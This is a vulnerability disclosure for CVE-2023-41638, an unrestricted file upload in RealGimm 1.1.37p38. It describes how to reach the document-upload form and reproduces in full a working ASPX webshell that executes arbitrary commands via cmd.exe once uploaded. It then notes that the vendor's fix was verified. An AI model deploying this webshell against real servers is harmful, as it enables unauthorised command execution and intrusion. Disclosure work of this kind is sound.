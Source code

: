 # CVE-2023-41638 | RealGimm by GruppoSCAI - RCE via Unrestricted File Upload
An unrestricted file upload vunerability was found in RealGimm version 1.1.37p38. This vulnerability was eventually exploited to obtain remote command execution by uploading a webshell. What follows is a description of the steps taken to perform the exploit.


## Proof of Concept

### Reaching the vulnerable page

The vulnerable form can be found under the section *patrimonio -> documentale -> gestione*. When that link is clicked, the following pop-up window opens.

![Gestione documentale" window](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/48880855-203a-4cc6-ba67-819d71e4cb8a)

This feature can be used to manage and attach documents to certain database entities. 

### Attaching malicious documents
In order to exploit it, we first search for an *immobile ID*. Once having found one existing item, it is possible to attach a new version of a document by clicking the button highlighted in the following figure.

![Add new document button](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/64cce2fe-a66a-4a7c-8fe3-dd0d605ec81f)


At this point, it is possible to upload a file and verify that the application does not perform any check over the file content that is uploaded. This means that it is possible to upload any malicious file type possible, including .aspx files. 

![File upload procedure](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/dd78d73f-d964-47f5-a622-4afe6716185d)

All the files are uploaded into the following directory:

`https://[RealGimm Host]/RealGimmWeb/Temp/Upload/<file_name>`

### Obtaining Remote Command Execution

We proceeded by uploading the following webshell (taken from [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)).

```
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```

Eventually, we visited the uploaded file's URL and found our webshell ready to execute some code.

![Webshell](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/07064599-facf-4d9c-9467-ab8ea36f5d3b)



## Remediation

GruppoSCAI fixed the vulnerability. The fix was subsequently analyzed and was confirmed to be effective.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Francesco Mercatili

Paolo Caminati

Claudio Rimensi
